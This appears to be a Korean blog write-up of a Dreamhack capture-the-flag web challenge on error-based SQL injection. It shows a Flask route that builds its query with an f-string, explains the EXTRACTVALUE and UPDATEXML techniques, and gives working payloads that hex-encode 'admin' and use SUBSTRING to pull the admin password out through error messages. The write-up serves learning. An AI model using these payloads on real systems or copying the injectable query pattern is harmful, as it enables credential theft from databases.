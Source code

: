 ```yaml
---
layout: post
published : false  # 글 비공개 설정
title: "[드림핵][Lv.1] error based sql injection 문제 풀이"
date:   2025-07-15 18:00:00 +0900
categories: [Security]
tags: [wargame, web, error-sqli]
---
```


## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: error based sql injection
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵 워게임](https://dreamhack.io/wargame/challenges/412)



## 2. 문제 분석 (Problem Analysis)

```python
# app.py
@app.route('/', methods=['POST', 'GET'])

def index():

uid = request.args.get('uid')

if uid:

try:

cur = mysql.connection.cursor()

cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")

return template.format(uid=uid)

except Exception as e:

return str(e)

else:

return template
```

---

### 1. 문제 해설
- 이 문제의 핵심은 Error based SQLi 대표적인 문제이다
- 먼저 Error based SQLi 의 대표적인 함수를 알아보면 2가지가 있다.

#### 1) EXTRACTVALUE() 함수를 이용한 공격
- extractvalue() 함수는 XML 데이터에서 특정 경로(XPath)에 해당하는 값을 추출하는 함수 이다.
- 이 때 두 분째 인자인 XPath 경로에 잘못된 문법을 삽입하면 에러가 발생하며, 이 에러 메시지에 우리가 원하는 정보가 포함되도록 유도할 수 있다.

- **기본 문법:** EXTRACTVALUE(XML_document, XPath_string)

<br>

##### 1-1) 대표 스크립트 예시 (MySQL/MariaDB 기준)
**대표 스크립트 (데이터베이스 버전 확인)**

```sql
' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT @@version))) --
```

**스크립트 상세 설명**
- `'`: 앞선 SQL 쿼리의 작은따옴표를 닫아 구문을 완료.
- `AND`: 논리 연산자를 사용하여 추가적인 조건을 연결한다.
- `EXTRACTVALUE(1, ...)`: `EXTRACTVALUE` 함수를 호출한다.
    - **첫 번째 인자 (`1`):** XML 문서 자리에 임의의 값(숫자 1)을 넣는다.(이 값 자체는 중요하지 않다.)
    - **두 번째 인자 (`CONCAT(0x3a, (SELECT @@version))`)**: XPath 경로 부분
        - `CONCAT()`: 여러 문자열을 하나로 합치는 함수이다.
        - `0x3a`: 콜론(`:`)의 16진수 표현한다는 표시, XPath 문법은 콜론으로 시작할 수 없기 때문에, 의도적으로 에러를 발생시키기 위해 사용한다.
        - `(SELECT @@version)`: 우리가 **알고 싶어 하는 정보**를 가져오는 쿼리이다. 여기서는 데이터베이스의 버전(`@@version`)을 조회한다.
- `--` : 뒤에 올 수 있는 나머지 SQL 쿼리 구문을 무시하여 문법 오류를 방지한다.

<br>
---


#### 2) UPDATEXML() 함수를 이용한 공격
- `UPDATEXML()` 함수는 **XML 데이터의 특정 부분**을 **다른 XML 조각으로 교체하는 함수**이다.
- `EXTRACTVALUE()`와 마찬가지로, **XPath 경로에 잘못된 문법을 넣어 에러를 유발하는 방식**으로 정보를 탈취한다.

- **기본 문법:** `UPDATEXML(XML_document, XPath_string, new_value_XML_frag)`

<br>

##### 2-1) 대표 스크립트 (현재 사용자 정보 확인)

```sql
' AND UPDATEXML(1, CONCAT(0x3a, (SELECT USER())), 1) --
```

<br>

##### 2-2) 스크립트 상세 설명
- `' AND UPDATEXML(1, ..., 1) --`: 전체적인 구조는 `EXTRACTVALUE`와 매우 유사하다.
    - **첫 번째 인자 (`1`):** 대상 XML 문서 자리에 임의의 값을 넣는다.
    - **두 번째 인자 (`CONCAT(0x3a, (SELECT USER()))`)**: 에러를 유발할 XPath 경로이다.
        - `0x3a`: 에러를 유발하기 위한 콜론(`:`)
        - `(SELECT USER())`: **알고 싶어 하는 정보**, 즉 현재 데이터베이스 사용자
          (예: `root@localhost`)를 가져온다.
    - **세 번째 인자 (`1`):** 변경할 XML 조각 자리에 임의의 값을 넣는다.

<br>

##### 2-3) 작동 원리
- `EXTRACTVALUE`와 동일
- `SELECT USER()`가 실행되어 사용자 정보를 반환하고, `CONCAT` 함수가 이를 콜론과 합쳐진다.
- 이 잘못된 XPath 경로로 인해 `UPDATEXML` 함수가 에러를 발생시키고, 에러 메시지에 사용자 정보가 노출 된다.

--- 

#### 3) 실제 문제의 스크립트 작성
~~~sql
' OR UPDATEXML(1, CONCAT(0x3a, (SELECT upw FROM user WHERE uid = 'admin')), 1) --
~~~
- 위와 같이 입력 시 에러가 발생하는 모습을 확인 했다. 
- 아마도 **문자가 필터링되고 있을 가능성**이 있는것 같다.

<br>

##### 3-1) 우회 시도 : Hex 인코딩 사용
- 위 처럼 따옴표 사용이 막혀을 때 가장 대표적인 우회 방법은 문자열을 16진수 값으로 인코딩하여 사용하는 것이다.
- 0x.... 형태로 시작하는 값을 16진수 문자열로 인식하기 때문에 따옴표 없이도 문자열을 표현 할 수 있다.
- 문자열 `'admin'`을 16진수로 변환하면 `0x61646d696e`가 됩니다.
	- `a` -> `61`
	- `d` -> `64`
	- `m` -> `6d`
	- `i` -> `69`
	- `n` -> `6e`

<br>

- **수정된 최종 Payload**
~~~sql
' OR UPDATEXML(1, CONCAT(0x3a, (SELECT upw FROM user WHERE uid = 0x61646d696e)), 1) #		
~~~

- UPDATEXML() 함수를 사용한 Error-based SQLi는 **"에러 메시지에 출력될 수 있는 문자열의 길이가 32자로 제한"** 되어 있어 긴 데이터를 한 번에 볼 수 없다.
- 이럴 때는 **"AUBSTRING()"** 함수를 사용한다.
	- 문자열의 특정 부분만 잘라내는 역할
	- - **기본 문법:** `SUBSTRING(자를 문자열, 시작 위치, 가져올 길이)`
	- **예시:** `SELECT SUBSTRING('ABCDEFG', 1, 3);` → 'ABC'를 반환
	- **예시:** `SELECT SUBSTRING('ABCDEFG', 4, 2);` → 'DE'를 반환

<br>

##### 3-2) 첫번째 부분 추출(1~30자)
~~~mysql
' OR UPDATEXML(1, CONCAT(0x3a, (SELECT SUBSTRING(upw, 1, 30) FROM user WHERE uid = 0x61646d696e)), 1) #
~~~
- `SUBSTRING(upw, 1, 30)`: `upw` 컬럼 값의 **1번째** 글자부터 **30개**

<br>

##### 3-3) 두번째 부분 추출(31~61자)
~~~sql
' OR UPDATEXML(1, CONCAT(0x3a, (SELECT SUBSTRING(upw, 31, 30) FROM user WHERE uid = 0x61646d696e)), 1) #
~~~
- `SUBSTRING(upw, 31, 30)`: `upw` 컬럼 값의 **31번째** 글자부터 **30개** 잘라 낸다.
- 이제 추출한 DH{} 값을 합치면 최종 Flag 값을 확인 할 수 있다.


---